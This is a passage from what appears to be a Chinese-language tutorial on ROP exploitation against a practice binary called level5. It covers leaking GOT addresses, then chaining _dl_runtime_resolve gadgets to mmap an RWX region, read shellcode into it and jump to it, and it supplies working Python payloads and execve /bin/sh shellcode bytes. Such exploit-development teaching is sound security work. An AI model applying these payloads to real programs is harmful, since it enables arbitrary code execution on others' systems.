```
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0
```
0x0000000000023950刚好符合我们的要求。有了pop rax和_dl_runtime_resolve这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。  

## 0x02 利用mmap执行任意shellcode

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。  

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的_dl_runtime_resolve中的通用gadgets泄露出got_write和_dl_runtime_resolve的地址。  
```
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```
随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。  
```
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )

shellcode_addr = 0xbeef0000

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

payload3 += p64(shellcode_addr)
```
然后我们利用_dl_runtime_resolve里的通用gadgets调用mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0),开辟一段RWX的内存在0xbeef0000处。随后我们使用read(rdi=0, rsi=shellcode_addr, rdx=1024),把我们想要执行的shellcode读入到0xbeef0000这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。  
